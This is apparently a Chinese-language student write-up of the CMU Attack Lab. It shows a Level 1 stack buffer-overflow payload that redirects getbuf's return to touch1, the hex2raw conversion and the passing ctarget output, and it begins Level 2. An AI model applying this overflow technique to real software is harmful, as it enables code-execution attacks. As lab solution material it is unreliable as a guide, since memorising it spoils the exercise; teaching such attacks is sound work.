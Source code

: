 分析getbuf，由第一行可以得到开辟了0x28即40个byte的空间，接收完毕执行ret返回时将取回rsp中的地址。

分析touch1，touch1函数的进入地址为0x4017c0。

本任务的目标是修改rsp使得getbuf执行ret时取回的地址为touch1的地址。

我们要输入11个32位数据使得缓冲区溢出

hex2raw的用法：

*HEX2RAW expects two-digit hex values separated by one or more white spaces. So if you want to create a byte with a hex value of 0, you need to write it as 00. To create the word 0xdeadbeef you should pass “ef be ad de” to HEX2RAW (note the reversal required for little-endian byte ordering).*

则输入的数据为

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 <- 溢出内容，注意栈是8byte的
```

生成cl1hex.txt文件，通过hex2raw转换成需要输入的数据

```shell
./hex2raw < cl1hex.txt > cl1raw.txt
```

将cl1raw.txt输入ctarget，结果

```
$ ./ctarget -qi cl1raw.txt
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00
```

### Level 2

要求执行完getbuf后跳转到touch2函数并输入参数，即cookie

touch2函数如下

```C
void touch2(unsigned val)
{
  vlevel = 2; /* Part of validation protocol */
  if (val == cookie) {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  } else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0)
}
```
